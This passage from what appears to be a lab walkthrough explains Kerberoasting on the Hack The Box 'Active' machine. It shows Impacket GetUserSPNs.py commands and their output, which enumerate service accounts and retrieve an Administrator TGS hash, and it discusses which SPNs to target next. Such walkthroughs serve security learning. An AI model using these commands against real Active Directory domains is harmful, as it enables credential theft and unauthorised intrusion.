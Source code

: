 - **Type 18 (AES-256):** Now we’re talking premium quality! Type 18 uses AES-256 encryption, one of the strongest out there. Extracting this is like biting into a rare, hard-to-crack nut. It’ll take a lot more effort to break, but the payoff could be worth it.
    
- **Type 17 (AES-128):** A little less intense than Type 18, but still not your everyday cracker. AES-128 is more secure than `RC4` but slightly easier to crack than AES-256. Think of it as a medium-hot sauce — not too mild, not too fiery, but still packs a punch.


## **Roasting From Linux**

When we run tools like `GetUserSPNs.py`, we're hunting for Service Principal Names (SPNs) that can help us identify accounts with valuable service tickets. 

```
❯ GetUserSPNs.py -dc-ip 10.129.231.107 active.htb/SVC_TGS
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 20:06:40.351723  2024-09-05 08:02:03.710164
```

**So, What Did We Find?**

The output reveals an SPN for **`active/CIFS:445`** associated with the `Administrator` account. This tells us that the `Administrator` is tied to a CIFS (Common Internet File System) service running on port 445. Knowing this, we can now plan our next steps for attacking or enumerating this service.

**What If We Found Other SPNs?**

If we had seen SPNs like **`*/SQL`** or **`*/HTTP`**, we’d know that these accounts are associated with SQL or web services, respectively. This is crucial because it informs our strategy:

- **SQL SPNs (`*/SQL`):** We could explore connecting directly to a SQL server to query data, exploit SQL-specific vulnerabilities, or even dump credentials.
- **HTTP SPNs (`*/HTTP`):** This indicates web services, which might involve web application attacks, directory traversal, or credential brute-forcing over HTTP.


> Note that there are other popular SPNs like `TERMSRV`,`WSMAN`,`RPC`,`LDAP`,`SMTP`,`HOST`. By understanding the SPNs in front of us, we can quickly identify the best services to target and craft our next moves.



Next, By using the `-request` flag with the `GetUserSPNs.py` script, we attempt to retrieve the TGS for the targeted service:

```
❯ GetUserSPNs.py -dc-ip 10.129.231.107 active.htb/SVC_TGS -request
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 20:06:40.351723  2024-09-05 08:06:51.093868             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$91797afd7c953--SNIP--
```